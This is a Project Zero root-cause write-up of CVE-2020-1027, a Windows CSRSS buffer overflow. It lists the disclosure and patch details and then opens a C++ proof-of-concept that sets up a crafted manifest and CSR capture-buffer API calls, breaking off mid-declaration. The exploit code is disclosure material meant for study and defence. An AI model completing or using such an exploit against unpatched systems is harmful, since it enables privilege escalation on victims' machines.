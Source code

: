 # CVE-2020-1027: Windows buffer overflow in CSRSS
*Sergei Glazunov, Project Zero (Originally posted on [Project Zero blog](https://googleprojectzero.blogspot.com/p/rca.html) 2021-01-12)*

## The Basics

**Disclosure or Patch Date:** 

* 23 March 2020 – advisory without technical details
* 14 April 2020 – security bulletin and patch release

**Product:** Microsoft Windows

**Advisory:**

* Initial advisory: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV200006
* Security bulletin: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1020

**Affected Versions:** Windows 7 through 10, prior to the April 2020 patch

**First Patched Version:** Windows with April 2020 patch (e.g. for Windows 10 1909/1903, [KB4549951](https://support.microsoft.com/en-us/help/4549951/windows-10-update-kb4549951)).

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Google: Project Zero and Threat Analysis Group

## The Code

**Proof-of-concept:**

```c++
#include <stdint.h>
#include <stdio.h>
#include <windows.h>
#include <string>

const char* MANIFEST_CONTENTS =
    "<?xml version='1.0' encoding='UTF-8' standalone='yes'?>"
    "<assembly xmlns='urn:schemas-microsoft-com:asm.v1' manifestVersion='1.0'>"
    "<assemblyIdentity name='@' version='1.0.0.0' type='win32' "
    "processorArchitecture='amd64'/>"
    "</assembly>";

const WCHAR* NULL_BYTE_STR = L"\x00\x00";
const WCHAR* MANIFEST_NAME =
  L"msil_system.data.sqlxml.resources_b77a5c561934e061_3.0.4100.17061_en-us_"
  L"d761caeca23d64a2.manifest";
const WCHAR* PATH = L"\\\\.\\c:Windows\\";
const WCHAR* MODULE = L"System.Data.SqlXml.Resources";

typedef PVOID(__stdcall* f_CsrAllocateCaptureBuffer)(ULONG ArgumentCount,
                                                     ULONG BufferSize);
f_CsrAllocateCaptureBuffer CsrAllocateCaptureBuffer;

typedef NTSTATUS(__stdcall* f_CsrClientCallServer)(PVOID ApiMessage,
                                                   PVOID CaptureBuffer,
                                                   ULONG ApiNumber,
                                                   ULONG DataLength);
f_CsrClientCallServer CsrClientCallServer;

typedef NTSTATUS(__stdcall* f_CsrCaptureMessageString)(LPVOID CaptureBuffer,
```